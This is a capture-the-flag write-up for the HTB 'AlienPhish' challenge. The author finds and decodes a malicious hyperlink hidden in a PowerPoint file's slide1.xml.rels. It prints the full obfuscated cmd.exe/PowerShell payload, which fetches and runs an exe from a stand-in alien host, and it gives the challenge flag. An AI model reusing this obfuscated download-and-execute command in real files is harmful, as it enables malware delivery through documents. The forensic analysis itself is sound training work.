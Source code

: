 # HTB Cyber Apocalypse CTF

## AlienPhish - PowerPoint File Forensics

- I came up with this cool little trick on the spot and decided to use VS Code to just search through all the files at once.
- Extract the PowerPoint file with `unzip file.pptx` and then open the entire directory in VS Code (`code .` if you have it set up that way in terminal/env) for searching through all the files quickly and easily. I use VS Code. You can use any other code editor you use/like that can search through all the files at once.
- Search for keywords like `vba`, `cmd`, `exe`, etc.
- Found what I wanted immediately in `slide1.xml.rels` file with `cmd` and `exe` keyword search.
- That file had a malicious `cmd` code in `Target` attribute:

```
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/>
```

```
"cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

- We can tell from the URL `exe.x/neila.htraeyortsed/:ptth` that some part is reversed.
- But the file name that this powershell command is downloading looks like an encoded string.
- `99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q` looked like an encoded value so went to CyberChef, reversed and decoded to Base64 and got the flag.
- Encoded Value => Reverse => `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99` => Base64 Decode => Flag => `CHTB{pH1sHiNg_w0_m4cr0s>??}`
- But that flag was not accepted and showed incorrect. Probably some decoding error so I went back to CyberChef and in Base64 Decoding, there was an option for `URL Safe` decoding which gave => `CHTB{pH1sHiNg_w0_m4cr0s???}`. This was one accepted.
